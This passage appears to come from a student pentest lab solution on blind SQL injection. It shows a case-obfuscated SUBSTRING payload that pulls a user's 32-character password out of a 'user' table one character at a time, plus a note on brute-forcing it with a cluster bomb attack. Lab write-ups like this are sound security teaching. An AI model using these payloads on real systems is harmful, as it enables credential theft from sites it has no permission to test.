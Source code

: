 *See that! The length of password is 32*

Now i will use SUBSTRING clause to check each character in the password

`1' anD SuBStRinG((SEleCT password fROm "user" WheRE username='haodz'), 1, 1)='0`

I guess the password will contain the characters `a-z, A-Z, 0-9`. And because the length of password is 32, so i use **Cluster bomb** to attack

<p align="center">
<img src="https://github.com/pentest-khoa-02/Group1/blob/solution/solution/SQL%20Injection/images/21.png" width="666px">
</p>

<p align="center">
<img src="https://github.com/pentest-khoa-02/Group1/blob/solution/solution/SQL%20Injection/images/22.png" width="666px">
</p>
